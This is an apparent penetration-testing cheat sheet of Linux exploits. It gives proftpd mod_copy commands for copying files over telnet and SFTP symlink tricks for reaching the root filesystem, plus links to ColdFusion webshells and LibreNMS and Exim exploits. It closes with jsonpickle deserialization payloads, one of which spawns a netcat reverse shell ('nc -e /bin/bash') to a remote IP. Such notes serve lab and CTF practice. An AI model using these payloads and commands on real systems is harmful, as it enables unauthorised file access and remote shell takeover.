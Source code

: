 # Linux exploits
## proftpd
Some ftp services like “proftpd” are able to copy and write to the remote filesystem (telnet needs to be used): 
#### links 
- [http://www.proftpd.org/docs/contrib/mod\_copy.html#SITE\_CPFR](http://www.proftpd.org/docs/contrib/mod_copy.html#SITE_CPFR)  
- [https://www.exploit-db.com/exploits/36742](https://www.exploit-db.com/exploits/36742)  
- [https://github.com/t0kx/exploit-CVE-2015-3306/blob/master/exploit.py](https://github.com/t0kx/exploit-CVE-2015-3306/blob/master/exploit.py)  
  
#### exploit
```bash
telnet <ip> <port>
site cpfr <path to filename>  
site cptp <path to filename>
```
	
## SFTP
Check if we have write access to the SFTP share:
- https://book.hacktricks.xyz/pentesting/pentesting-ssh
#### We can create a Symlink with a Folder / File and thus gain access to more data:
```bash
symlink / <folder_name>
symlink /var/www/html/index.php index.txt
```
	
## Attacking ADOBE ColdFusion
- https://pentest.tonyng.net/attacking-adobe-coldfusion/
- https://github.com/reider-roque/pentest-tools/blob/master/shells/webshell.cfm
- https://www.youtube.com/watch?v=KTn4q7U2MnI
	
## LibreNMS Exploit
- https://shells.systems/librenms-v1-46-remote-code-execution-cve-2018-20434/
- https://www.exploit-db.com/exploits/47044
- https://gist.github.com/mhaskar/516df57aafd8c6e3a1d70765075d372d
- https://www.exploit-db.com/exploits/46970

## Exim Exploit
- https://www.exploit-db.com/exploits/46996

## Abusing JSON pickle object
#### Important link
- https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md
#### Payloads used
```python
{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["nc -e /bin/bash 192.168.56.101 5555"], 0, 0, 0]}
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["/tmp/bad.sh"]}]}
```
- More details can be found by reading the “Symfonos 4” walkthrough.
